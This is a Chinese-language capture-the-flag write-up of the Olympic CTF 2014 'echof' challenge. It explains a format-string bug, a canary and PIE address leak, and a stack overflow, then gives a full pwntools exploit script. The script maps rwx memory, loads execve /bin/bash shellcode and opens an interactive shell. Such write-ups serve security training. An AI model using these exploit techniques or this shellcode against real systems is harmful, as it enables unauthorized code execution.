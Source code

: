 ```yaml
---
title: olympic ctf echof(PWN 300)
author: rk700
layout: post
tags:
  - exploit
---
```


2015年第一帖。

以往的CTF的题目质量还是很高的，所以打算稍微练一练这些题目。

这道[题目](https://github.com/ctfs/write-ups/tree/a7ab67c0233da01f96047fe04d829731876438ad/olympic-ctf-2014/echof)，存在一处format string attack。主要是在`strncpy`后添加结尾的`null`字符时，如果长度足够，就会把之后用到的格式字符串地址最低byte设为0，而那里正好指向我们提供的内容，于是接下来的`sprintf`造成漏洞。

但是，在开始时会先检查我们提供的内容是否包括字符`n`，这就使得`%n`这种方式不可用了。于是format string就只能用来读内存。另一方面，由于`sprintf`的目标地址在栈上，所以这里可以溢出覆盖返回地址。由于有canary保护，我们需要读canary的内容，以用来后面溢出能通过检查。

这道题有一个与以往不同之处，就是可执行文件是PIE的，即程序自身的代码地址也会变化，而且以往那样直接在GOT固定位置得到函数地址的方法行不通了。比如说，通过调试发现，`call mmap`在我的机子上会成为调用相对`eip`偏移。

于是我们还需要读内存，得到`.text`的基地址。幸运的是，在栈上发现了指向某条指令的地址，于是通过读那里的内容，就可以获得`.text`段的地址了。进一步，通过读取`call mmap`指令处的偏移，就可以得到函数`mmap`的地址。

获得这些需要的地址后，接下来需要溢出改返回地址了。而不幸的是，发现canary的最低byte总是0，这就导致`strncpy`时会截断，格式字符串不完整了。后来发现，由于在`ret`之前有好几轮`sprintf`，于是可以先使用错误的canary，即最低byte非0而其他位正确，然后利用`sprintf`会把结尾的byte设为0，再一次溢出并只修改canary的最低位成为0。这样在最后的`ret`时canary就符合要求了。

同样地，在后面调用`mmap`时，参数也有很多`null`字符，这里也用和canary一样的思路写0到栈。具体调用时，尝试发现有些参数里不包括0也是可以的，比如`flag`。如下的调用

<pre>mmap(0x11111000, 0x01011000, 0x01010107, 0x01010122, -1, 0x01011000);</pre>

就会映射出

<pre>0x11111000 0x12122000 rwxp      mapped</pre>

综上，大概思路就是，先得到一段`rwx`的指定区域，然后`read`把shellcode读到那里，最后跳到那里执行。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

def sendNull(conn, payload):
    chunks = payload.split("\x00")
    clen = len(chunks)
    print "%d chunks" % clen
    for i in range(clen):
        plo = "\xaa".join(chunks)
        size1 = 0x80 - 5 - len(plo)
        size2 = 0x100-size1
        fmt = "%%%dx" % size2
        if not (len(fmt)+size1+len(plo) == 0x80):
            print "%d %s %d" % (size1, fmt, len(plo))
            exit (1)

        pl = "b"*size1 + fmt + plo
        conn.recvuntil("msg?\n")
        conn.send(pl)
        chunks = chunks[:-1]

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    c1 = "%78$08x%80$08x"

    payload1 = "letmein\n" + c1 + "a"*(0x80-len(c1));


    conn.send(payload1)
    conn.recvuntil("msg?\n")

    canary = int(conn.recvn(8),16)
    print "canary is %s" % hex(canary)
    eip = int(conn.recvn(8),16)
    print "eip is %s" % hex(eip)
    base = eip & 0xfffff000
    print "base is %s" % hex(base)

    call_mmap = base + 0xae5
    call_read = base + 0xa78
    c2 = "%44$sABCD\n%45$s"
    payload2 = c2 + "a"*(0x80-len(c2)-8) + p32(call_mmap+1) + p32(call_read+1)

    conn.send(payload2)
    conn.recvuntil("msg?\n")
    mmap_off = unpack(conn.recvn(4))
    mmap = (call_mmap + 5 + mmap_off) & 0xffffffff
    print "mmap is %s" % hex(mmap)

    conn.recvuntil("ABCD\n")
    read_off = unpack(conn.recvn(4))
    read = (call_read + 5 + read_off) & 0xffffffff
    print "read is %s" % hex(read)

    pop = base+0x8b5 #pop 7 dword and ret
    target = 0x11111000
    payload2 = p32(canary) + "a"*12 + p32(mmap) + p32(pop) + p32(target) + p32(0x01011000) + p32(0x01010107) + p32(0x01010122) + p32(0xffffffff) + p32(0x01011000) + p32(0xffffffff) + p32(read) + p32(target+1) + p32(0) + p32(target+1) + p32(0xffffffff)

    sendNull(conn, payload2)

    conn.recvuntil("msg?\n")
    conn.send("n")

    shellcode = "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"
    conn.send(shellcode)

    conn.interactive()
{% endhighlight %}

我还考虑过这道题能不能利用内存泄露用pwntools得到`system`函数的地址，然后调用的方式。但那样的话还需要把`/bin/sh`放到指定的某处，而且限制16次可能不够找`system`，还需要再返回main来一遍。后来就没有试了。

